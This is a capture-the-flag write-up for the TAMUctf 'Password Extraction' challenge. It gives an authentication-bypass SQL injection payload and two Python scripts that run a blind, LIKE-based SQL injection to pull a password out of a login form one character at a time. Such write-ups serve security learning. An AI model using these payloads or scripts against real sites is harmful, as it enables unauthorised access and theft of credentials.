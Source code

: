 # Password Extraction

## Description

> The owner of this website often reuses passwords. Can you find out the password they are using on this test server?
> 
> http://passwordextraction.tamuctf.com
> 
> You do not need to use brute force for this challenge.

The website is a simple login form.

## Solution

The simple SQL injection works: `username: admin`, `password: x' OR '1'='1`. We can log in, but we get the message:
```
You've successfully authorized, but that doesn't get you the password.
```

So let's do a blind SQL injection: we want to guess the password character by character using injections of the type `x' OR password LIKE gigem{knownpassword%`. Trying with `gigem{` at the beginning, this works, so let's script it.

First let's retrieve the characters used in password:

```python
import requests

url = 'http://passwordextraction.tamuctf.com/login.php'
post_data = {'username': 'admin', 'password': "x' or '1'='1"}

valid_char = []

for i in range(33,127):
    c = chr(i)
    # Escape special chars
    if c in ',&?{}()[]-;~|$!>*%_' or i == 92:
        c = chr(92) + c
    post_data['password'] = "' OR password LIKE '%" + c + "%"
    print(post_data)
    x = requests.post(url, data = post_data)
    print(x.text)
    if 'successfully' in x.text:
        valid_char.append(c)
print(valid_char)
```

Then we perform the actual search

```python
while(True):
    for c in '01STYcdeghimoprstu':
        post_data['password'] = "' OR password LIKE '%" + valid + c + "%"
        x = requests.post(url, data = post_data)
        if 'successfully' in x.text:
            valid = valid + c
            print(valid)
            break
```

Flag: gigem{h0peYouScr1ptedTh1s}
